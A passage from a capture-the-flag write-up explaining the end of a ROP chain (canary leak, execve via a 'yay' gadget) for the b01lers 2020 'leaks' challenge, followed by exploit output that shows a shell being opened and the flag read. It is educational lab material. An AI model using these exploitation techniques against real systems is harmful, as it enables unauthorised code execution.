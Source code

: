 Next, is our argument to `yay` (`59` is the `execve` syscall number).  This may not seem intuitive, but set a breakpoint at `leave` and follow it yourself; `leave` pops the saved base pointer into `rbp`, normally we do not care what the value is, but in this case we do because `yay` will push it back to the stack, then pop it into `$rax`--required for `syscall`.

Next, are the parameters to `execve`: the pointer to `/bin/sh` (`name`) and popping `0`'s into `$rsi` and `$r15` (just along for the ride).  `$rdx` is already zero, so no need to set.

Lastly, the call to `yay` to pop the shell.

> There are other options, e.g. put `59` on the stack and call `pop rax; syscall` directly, or use sigreturn, etc...  I went this route because it was easy.


Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/b01lersbootcampctf2020/goodbye_mr_anderson/leaks'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to chal.ctf.b01lers.com on port 1009: Done
[*] _start: 0x561ef7c45100
[*] binary.address: 0x561ef7c44000
[*] name 0x561ef7c48050
[*] canary: 0x1c53f1c9ba8fcf00
[*] Loaded 16 cached gadgets for './leaks'
[*] Switching to interactive mode
$ id
uid=1000(leaks) gid=1000(leaks) groups=1000(leaks)
$ ls -l
total 36
-r-xr-x--- 1 root leaks    46 Oct  2 18:33 Makefile
-r--r----- 1 root leaks    32 Oct  2 18:33 flag.txt
-r-xr-x--- 1 root leaks 17152 Oct  3 04:07 leaks
-r-xr-x--- 1 root leaks   906 Oct  2 18:33 leaks.c
-r-xr-x--- 1 root leaks    39 Oct  2 18:33 wrapper.sh
$ cat flag.txt
flag{l0tsa_l33ks_4r3_imp0rt4nt}
```
